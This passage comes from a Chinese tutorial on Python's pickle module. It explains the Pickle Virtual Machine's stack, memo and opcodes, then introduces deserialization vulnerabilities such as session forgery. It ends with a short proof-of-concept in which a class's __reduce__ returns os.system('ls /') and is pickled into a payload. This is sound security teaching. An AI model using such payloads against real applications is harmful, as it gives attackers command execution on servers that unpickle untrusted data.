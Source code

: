 7）PVM将栈顶的数据返回，即返回python对象

 

在pickle这个过程中，起到核心作用的是PVM，即Pickle Virtual Machine。意如其名，PVM就是pickle模块的虚拟机，负责python的序列化和反序列化。其特点是，基于栈来储存序列化和反序列化的中间结果，并由opcode来决定如何序列化或反序列化对象。

下面来简单介绍一下PVM的几个重要组成部分：

1）栈（stack）：一种常见的数据结构，特点是后进先出，由python的list实现，在pickle中主要用于临时储存中间数据

  a）栈顶：允许插入和删除元素的一端

  b）栈底：栈的另一端，不允许操作

  c）压栈：将元素插入栈顶

  d）弹栈：删除栈顶元素

  e）查看栈顶元素：获取栈顶元素的值，但不删除

2）内存（memo）：pickle模块中的内存区域，由python的dict实现，用于储存已经反序列化的对象

3）解析引擎：从字节流中读取opcode，并对其进行解释。例如\x2e(STOP)，hex转码即是"."，意思是结束pickle的执行



#### 4.pickle反序列化的漏洞

pickle反序列化经常会在认证token和session时出现，所以其经常会和session伪造搭配一起食用。

1）`__reduce__`

利用`__reduce__`来构造恶意字符串，当该字符串被反序列化时，`__reduce__`会被执行。

下面详细来写一下这个魔术方法：

`__reduce__`方法在pickle模块序列化一个对象时会被调用，并返回字符串或最好返回的一个元组，包含2到6个元素，其中第一个元素是一个可调用对象，该对象会在创建对象时被调用，第二个元素是元组，其可调用对象的参数。这和opcode中的R相似：选择栈上的第一个对象作为函数、第二个对象作为参数（第二个对象必须为元组），然后调用该函数。

由此我们可以利用`__reduce__`的第二个元素的参数来执行恶意代码。

```python
import pickle

import pickletools

import os

class Secret():

  def __init__(self):

​    self.username='admin'

​    self.passwd='123456'

  def __reduce__(self):

​    return(os.system,('ls /',))

payload=pickle.dumps(Secret())

payload=pickletools.optimize(payload) #优化pickle序列化后的字节码

print(payload)

pickletools.dis(payload)
```

